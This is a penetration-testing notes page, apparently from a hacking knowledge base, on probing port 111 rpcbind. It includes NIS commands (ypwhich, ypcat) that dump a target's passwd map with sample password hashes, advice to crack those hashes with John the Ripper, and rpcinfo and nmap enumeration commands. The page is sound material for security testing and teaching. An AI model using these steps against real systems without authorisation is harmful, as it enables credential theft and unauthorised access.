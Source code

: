 ```yaml
---
Ports: 111 (TCP), 111 (UDP)
Description: Provides information between Unix based systems. Port is often probed, it can be used to fingerprint the Nix OS, and to obtain information about available services. Port used with NFS, NIS, or any rpc-based service.
---
```


# Basic Usage

## RPCBind + NFS

If you find the service NFS then probably you will be able to list and download(and maybe upload) files:

![](../../zzz_res/attachments/rpc+nfs.png)

Read [NFS - Network File System](NFS%20-%20Network%20File%20System.md) to learn more about how to test this protocol.

## NIS

If you find the service `ypbind`running:

![](../../zzz_res/attachments/NIS.png)

You can try to exploit it. Anyway, first of all you will **need to guess the NIS "domain name"** of the machine (when NIS is installed it's configured a "domain name") and **without knowing this domain name you cannot do anything**.

Upon obtaining the NIS domain name for the environment ([example.org](http://example.org/) in this case), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

```bash
root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```
![|700](../../zzz_res/attachments/rpc-files.png)

## RPC Users

If you find the **rusersd** service listed like this:

![](../../zzz_res/attachments/rusersd.png)

You could enumerate users of the box. To learn how, read [1026 - Rsusersd]

---

# Enumeration
- [rpcinfo](../Tools/rpcinfo.md)

```bash
rpcinfo <IP>
rpcinfo -s <IP>
rpcinfo -p <IP>
```

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap -sSUC -p111 192.168.10.1
```

